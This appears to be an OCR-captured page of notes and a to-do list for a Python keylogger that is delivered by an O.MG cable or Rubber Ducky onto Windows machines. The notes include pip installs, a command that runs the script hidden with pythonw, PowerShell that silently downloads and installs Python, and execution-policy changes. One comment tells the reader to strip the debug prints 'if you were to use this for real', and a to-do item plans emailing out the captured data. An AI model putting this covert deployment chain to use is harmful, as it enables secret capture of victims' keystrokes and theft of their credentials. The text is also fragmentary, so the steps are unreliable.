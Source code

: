 # For windows ps

# ----Random Notes----

#### install via cable

#pip install pynput

#pip install pywin32

#pip install requests

#pip install easygui

#run powershell >  pythonw "C:\Path\Path\Path\OMG CABLE STUFF\python keylogger test.py"

#powershell -WindowStyle Hidden

# --------------Install python via powershell---------------
#[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

#wget "https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe" -outfile "python-3.8.0.exe"

#.\python-3.8.0.exe /quiet InstallAllUsers=0 PrependPath=1 Include_test=0

# python keylogging program

##You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing

##i have prints on here that will tell you and let you know what part of the program is going at the time and that it is

##working

#Youtube channel of original creator - https://bit.ly/2U58Lt9

#modified by me

# TO-DO list

### ADD

Set-ExecutionPolicy Default
Set-ExecutionPolicy -scope CurrentUser Default

# -----------------------------------------------------------------

Upload version of python script that just needs email inputted instead of om.g cables or ducky inputting the info into the box

# -----------------------------------------------------------------
Remove all .txt files will add incase internet connection breaks and errors start

import os

import glob

files = glob.glob('/tmp/*.txt')

for f in files:
    try:
        f.unlink()
    except OSError as e:
        print("Error: %s : %s" % (f, e.strerror))
#Insert into else on error
# -----------------------------------------------------------------

Optimize better

# -----------------------------------------------------------------

Do one for other OS's possibly if my attention span doesn't go else where

# -----------------------------------------------------------------
# -----------------------------------------------------------------
